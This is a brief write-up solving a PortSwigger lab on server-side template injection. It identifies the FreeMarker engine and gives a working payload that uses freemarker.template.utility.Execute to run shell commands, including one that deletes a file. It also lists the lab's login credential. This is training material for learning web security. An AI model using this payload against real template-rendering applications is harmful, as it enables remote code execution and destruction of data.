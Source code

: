 # Server-side template injection using documentation

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

### step1

![screenshot](./images/lab3_template_expression.png)

### step2

![screenshot](./images/lab3_check_which_template.png)

### step3

### HINT: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id)}`

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

![screenshot](./images/lab3_template_execution_lab_solved.png)
